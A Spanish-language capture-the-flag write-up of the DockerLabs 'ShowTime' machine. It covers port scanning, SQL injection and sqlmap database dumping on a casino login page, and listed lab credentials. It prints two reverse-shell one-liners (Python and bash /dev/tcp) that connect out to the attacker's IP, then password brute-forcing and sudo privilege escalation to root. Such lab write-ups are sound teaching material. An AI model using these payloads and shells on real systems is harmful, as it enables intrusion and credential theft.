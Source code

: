 # Info
## IP
```
172.17.0.2
```
## Users/passwd
lucas -> 123321123321
santiago -> 123456123456
joe -> MiClaveEsInhackeable
# ShowTime
## Reconocimiento
### Nmap
En primer lugar empezamos como de costumbre por un escaneo de puertos, para ver a que nos enfrentamos, que puertos hay abiertos y los servicios de las versiones que estos están sirviendo. Dicho escaneo revela poca cosa, un servidor HTTP en el puerto 80 de título "cs":
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: cs

```
### Casino
Al visitar la página en cuestión nos encontramos con una página de un casino, hay varios juegos y botones pero todos son atrezzo menos el que lleva al panel de inicio de sesión. Examinando el código fuente no veo nada que me llame la atención a priori, y usando whatweb no identifico nada vulnerable por defecto en la página, de modo que vamos a centraros en el formulario de login. 
## Explotación
### SQLi
Tan sólo probando con una comilla en el campo del username me salta un error de mySql, lo que revela que el panel de login es vulnerable a SQLi. Con el primer payload (`' OR '1`) en ambos campos entro, pero no hay ninguna acción para llevar acabo más que cerrar sesión, lo que nos lleva de vuelta al panel de login. Esta vez vamos a probar a atacar el panel con SQLmap, mediante esta línea:
``` bash
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" --dbs --level=5 --risk=3 --forms --batch --threads 10
```
la intención es enumerar las bases de datos contenidas en el sitio, cosa la cual conseguimos, a partir de aquí la idea es continuar enumerando las tablas y columnas hasta llegar a la información real de la base de datos que nos interesa: **users**. 
``` bash
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users --tables --level=5 --risk=3 --forms --batch --threads 10
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users -T usuarios --columns --level=5 --risk=3 --forms --batch --thr
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users -T usuarios --dump --level=5 --risk=3 --forms --batch --threads 10
```
La sucesión de esos tres comandos (evidentemente, explorando entre ellos las columnas y extrayendo la información relevante en el proceso) nos lleva a dar con tres usuarios y sus respectivas contraseñas, con ellas vamos a elaborar dos archivos, username.txt y passwd.txt para realizar un ataque de fuerza bruta con las credenciales obtenidas.
### Revshell
El ataque diccionario no da resultados, de modo que pruebo unas de las credenciales en el panel de login y accedo a una página que no había visto antes, un panel de administración que aparentemente permite la ejecución de cualquier comando Pyhton. Conseguimos fácilmente una reverse shell ejecutando el siguiente comando:
``` python
import os,pty,socket;s=socket.socket();s.connect(("192.168.1.157",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```
## Post-explotación
### Hidden text
Una vez dentro veo que no puedo hacer sudo -l, tampoco usar CURL para instalar LinPEAS y en los permisos SUID no veo nada interesante, tras buscar un rato encuentro un archivo llamado `.hidden_text.txt` en /tmp, el cual contiene una lista de trucos del GTA, con ella voy a intentar hacer bruteforce o bien al usuario joe o al usuario luciano, los cuáles encontré haciendo un cat a `/etc/passwd`. En principio el diccionario no sirve, pero después de atascarme durante un rato se me ocurre probar a pasar la lista a minúsculas, ya que todo esta en mayúsculas, y así obtengo la contraseña para el usuario joe.
### Joe
Al entrar como joe si que puedo lanzar sudo -l, y al hacerlo veo que puedo pivotar fácilmente al usuario luciano con el binario posh.
``` bash
joe@12ef731c3c67:~$ sudo -l
User joe may run the following commands on 12ef731c3c67:
    (luciano) NOPASSWD: /bin/posh
joe@12ef731c3c67:~$ sudo -u luciano /bin/posh
whoami
luciano
```
Aquí al ejecutrar sudo -l de nuevo nos encontramos con un script en que puede ejecutarse como root sin passwd, con lo cuál simplemente tendremos que editarlo para iniciar una nueva shell como root. 
## FF 
En este punto me atasqué durante un rato y me rendí, viendo el [writeup de 4bytes](https://github.com/4bytess/writeups/blob/main/dockerlabs/show%20time.md) entendí que lo que él hace es (ya que no hay editor de texto, que es donde yo me atasqué) utiliza echo para modificar el archivo que tiene permisos, con ``echo "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/172.17.0.1/500 0>&1" > /home/luciano/script.sh``, una vez hecho eso simplemente queda ejecutar el script para ganar una shell root (aunque en su caso el optó por darse una revshell).